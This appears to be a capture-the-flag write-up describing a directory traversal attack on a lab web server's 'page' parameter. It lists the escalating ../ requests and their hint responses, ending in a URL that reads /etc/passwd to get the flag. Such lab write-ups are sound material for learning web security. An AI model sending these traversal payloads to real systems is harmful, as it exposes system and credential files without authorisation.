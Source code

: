 # 08-Dir Access Attack

## 🕵️ Step 1: Initial Curiosity
We notice a page parameter in the URL:
```
http://x.x.x.x/?page=home
```
We test with `../` to see if we can break out:
```
http://x.x.x.x/?page=../
```
Response: "Wtf?"

👀 This means our input is being processed!

## 🔎 Step 2: Checking if We Can Go Higher
Trying `../../`:
```
http://x.x.x.x/?page=../../
```
Response: "Wtf?" again.

✔ This confirms that ../ is working but isn’t quite enough.

## 🤔 Step 3: The First Sign of Resistance
Trying `../../../`:
```
http://x.x.x.x/?page=../../../
```
Response: "Wrong.."

📌 Now we know we’re making progress.

## 🚀 Step 4: Almost There
We keep pushing:
```
http://x.x.x.x/?page=../../../../
http://x.x.x.x/?page=../../../../../
```
Responses: "Nope.." "Almost."

🎯 We are VERY close!

## 🔥 Step 5: The Final Clue
Trying `../../../../../../`:
```
http://x.x.x.x/?page=../../../../../../
```
Response: "Still nope.."

Trying `../../../../../../../`:
```
http://x.x.x.x/?page=../../../../../../../
```
Response: "Nope.."

Trying `../../../../../../../../`:
```
http://x.x.x.x/?page=../../../../../../../../
```
Response: "You can DO it!!! :]"

💡 This is the breakthrough!

## 🎯 Step 6: The Jackpot - Accessing /etc/passwd
Now, we add `/etc/passwd`:
```
http://x.x.x.x/?page=../../../../../../../../etc/passwd
```
Response: Congratulaton!! The flag is : ...

🏆 We’ve done it! Directory Traversal success!

## Key Takeaways
✅ The troll messages were our guide—they weren’t blocking us, just misleading us.
✅ We didn’t use any automated tools, just logical testing.
✅ By recognizing pattern changes, we pinpointed the correct depth before even testing `/etc/passwd`.
